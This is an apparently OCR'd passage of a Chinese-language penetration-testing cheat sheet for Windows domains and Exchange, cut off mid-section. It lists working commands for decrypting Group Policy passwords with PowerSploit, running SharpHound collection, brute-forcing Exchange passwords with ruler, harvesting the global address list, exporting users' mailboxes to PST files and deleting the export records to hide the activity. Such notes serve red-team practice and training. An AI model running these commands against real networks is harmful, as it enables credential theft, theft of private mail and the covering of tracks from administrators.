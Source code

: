 			- 加密过的管理员账号密码

				- aes加密密钥 

					- https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN
					- 解密

						- https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1

	- 域用户登录脚本存放目录

		- 敏感文件

			- \\domain\Netlogon

- 自动化信息收集

	- Seatbelt
	- Bloodhound

		- SharpHound.exe  -c all

- Exchange

	- 邮箱用户密码爆破 - 次数过多会导致域用户锁定

		- ./ruler  --domain targetdomain.com brute --users /path/to/user.txt --passwords  /path/to/passwords.txt

	- 通讯录收集

		- Get-GlobalAddressList  -ExchHostname mail.domain.com -UserName domain\username -Password Fall2016  -OutFile global-address-list.txt

	- 信息收集

		- 获取所有邮箱用户

			- Get-Mailbox

		- 导出邮件

			- New-MailboxexportRequest  -mailbox username -FilePath ("\\localhost\c$\test\username.pst")

		- web口导出

			- https://mail.domain.com/ecp/

		- 导出会有记录

			- Get-MailboxExportRequest

		- 删除某个导出记录

			- Remove-MailboxExportRequest  -Identity 'username\mailboxexport' -Confirm:$false

- 域相关操作

	- 判断DNS和域控是否为同一服务器:
ipconfig /all查看DNS后缀
nslookup DNS后缀
	- 定位域控
